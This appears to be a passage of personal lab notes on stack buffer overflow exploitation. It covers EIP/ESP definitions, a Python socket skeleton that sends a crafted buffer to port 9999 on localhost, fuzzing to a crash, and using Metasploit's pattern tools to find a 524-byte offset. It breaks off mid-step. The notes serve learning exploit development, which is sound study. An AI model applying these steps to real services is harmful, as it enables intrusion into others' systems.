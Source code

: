 # Definitions
1. EIP - Contains address of the next instruction for program or command
2. ESP - Lets you know where on the stack you are and allows you to push data in and out of the app
3. JMP - Instruction that modifies the flow of execution where the operand you designate will contain the address being jumped to
4. \x41, \x42, \x43 - hex for A, B, C

# Using ollydbg
![[Pasted image 20240618213843.png]]
- Registers (EIP/ESP) are on the right

# Skeleton Python Script
```python
#!/usr/bin/python 

import socket,sys

address = '127.0.0.1'
port = 9999
buffer = #TBD

try:
	print '[+] Sending buffer'
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(buffer + '\r\n')
except:
 	print '[!] Unable to connect to the application.'
 	sys.exit(0)
finally:
	s.close()
```

# 1. Crash the app
- Run `fuzz.py`
- Sends \x41 (A) incrementally, 100 bytes at a time to port 9999 until it is no longer able to communicate with that port
- App stops communicating after 600 bytes
![[Pasted image 20240618223406.png]]
- See A's in ESP

# 2. Find EIP
- Identify exact number of bytes needed to fill buffer
- Use `pattern_create.rb` to create a unique string with no repeating characters
- Using the created string, input this in skeleton code under `buffer` variable

- After running new skeleton code `bof.py`, refer to ollydbg and get the EIP value
![[Pasted image 20240618224044.png]]
- Value: 35724134
- Input that value into `pattern_offset.rb` and obtain the offset. This allows us to know exactly where the buffer crashes.
```shell
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
[*] Exact match at offset 524
```

# 3. Control ESP
- Try to fill buffer with our own data to verify that we can control it
- new buffer:
```python
buffer = '\x41'*524 + '\x42'*4 + '\x43'*(600-524-4)
```
- Where:
	- EIP: '\x41 * 524' The exact number of bytes to crash (As)
	- ESP: 